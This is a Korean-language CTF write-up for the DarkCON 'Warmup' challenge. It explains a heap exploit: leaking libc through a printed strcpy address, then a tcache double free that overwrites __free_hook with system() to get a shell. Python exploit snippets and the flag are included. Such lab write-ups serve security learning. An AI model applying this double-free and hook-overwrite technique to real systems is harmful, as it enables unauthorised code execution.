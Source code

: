 # [DarkCON CTF] Warmup

## Info

+ 30 solves / 482 points

warm up yourself and get the flag!

## Summary

+ double free
+ tcache poisoning
+ hook overwrite

## File

+ Arch : x86-64
+ Library : dynamically linked (libc6_2.27-3ubuntu1.2_amd64)

## Checksec

+ CANARY : Enabled
+ FORTIRY : Disabled
+ NX : Enabled
+ PIE : Disabled
+ RELRO : Partial

## Description

전형적인 `menu` 형식의 문제이다.
문제를 해결하기 위해서 알아야 할 함수는 총 3가지가 있다.

+ main

_reloc.strcpy의 주소를 출력해준다.

+ create

note index : [0, 0x10)

note size : (0,0x20]

malloc()을 호출하고 할당된 힙에 내용을 입력받는다.

+ delete

free()를 호출하고 테이블에 적힌 주소를 초기화하지 않고 그냥 리턴한다.

## Exploit

**Leak libc address**

```python
p.recvuntil(": ")
strcpy = int(p.recv(14),16)
libc = strcpy - 0xb65b0
system = libc + l.symbols["system"]
free_hook = libc + l.symbols["__free_hook"]
```

main에서 주어지는 주소가 strcpy가 아니라 __strcpy_sse2라는 점을 알아낸다면 라이브러리 주소를 쉽게 구할 수 있다.

**Overwrite free_hook**

```python
delete(0)
delete(0)
create(0, 0x10, p64(free_hook))
create(1, 0x10, b"/bin/sh\x00")
create(2, 0x10, p64(system))
delete(1)
```

delete() 함수가 주소를 초기화하지 않기 때문에 단순히 같은 주소를 연속으로 두 번 해제하는 것으로 double free를 유도할 수 있다. 라이브러리 버전이 < 2.29이므로 tcache에 대한 double free 검증이 존재하지 않는다.

이제 free_hook을 system()의 주소로 덮은 후, delete()를 통해 free("/bin/sh")를 호출하면 system("/bin/sh")가 대신 호출되어 쉘을 취득할 수 있다.

## Flag

+ darkCON{shrtflg}